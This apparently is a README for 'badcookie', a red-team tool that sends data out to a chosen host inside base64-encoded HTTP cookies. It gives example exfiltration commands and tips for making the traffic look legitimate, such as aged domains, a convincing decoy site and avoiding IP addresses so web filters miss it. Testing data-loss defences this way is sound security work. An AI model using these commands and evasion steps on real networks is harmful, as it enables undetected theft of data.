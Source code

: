 # Requirements
Python 2.7

### Libraries
* Requests

# Description
Badcookie exfiltrates data via base64 encoded HTTP cookies.

# Some use cases
* The script can be used for testing the effectiveness of data loss prevention systems.
* Outbound network traffic monitoring systems.
* Red Team / Blue team exercises e.g. see if the blue team can detect data exfiltraion.
* Penetration testing activities

#Things to keep in mind
* The script transmits data via http not https
* Base64 encoded data can be easily decoded
* Be mindful of the cookie size when transmitting data

#Usage
`badcookie.py <destination_host> <exfiltrated_data>`

`Example(1): badcookie.py 10.0.0.2 "very important data"`

`Example(2): badcookie.py www.secretsite.com "very important data"`

Use quotes if you plan to transmit data with whitespace


#Setting up the data exfiltration process

* To make the network traffic look convincing setup a site with a proper domain. It can be a news, blog or any other site. So when you exfiltrate data the network traffic will look like normal web traffic going to a legitimate site. (atleast this is what we are trying to accomplish)
* Fill the site with some real looking content
* If you are testing systems where there is a web filtering proxy involved, try and use domain which is  more than a year old as web filtering proxies block new domains. In either case using an aged domain name will be beneficial.
* Avoid sending data using IP addresses.
* Enable  logging of http cookies in apache ( you can use any server you like). The sample config file in this repository “000-default.conf” in the  “apache_conf” folder can be used to enable cookie logging. Place config file in /etc/apache2/sites-enabled/ and restart Apache.  You should now see a file called “cookies.log” in /var/log/apache2.
* Execute the badcookie script.
* After executing the script you should see the following log entry in cookies.log. The log shows the transmitted base64 cookie.

`10.0.0.2 - - [13/Jun/2015:18:48:17 -0500] "GET / HTTP/1.1" 200 3256 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MDDCJS; :11.0) like Gecko" "dGVzdGluZw=="`

* You can now decode the base64 encoded data.

* Please note that the above process is just a suggestion, you can setup the exfiltration process anyway you like.

* Have fun
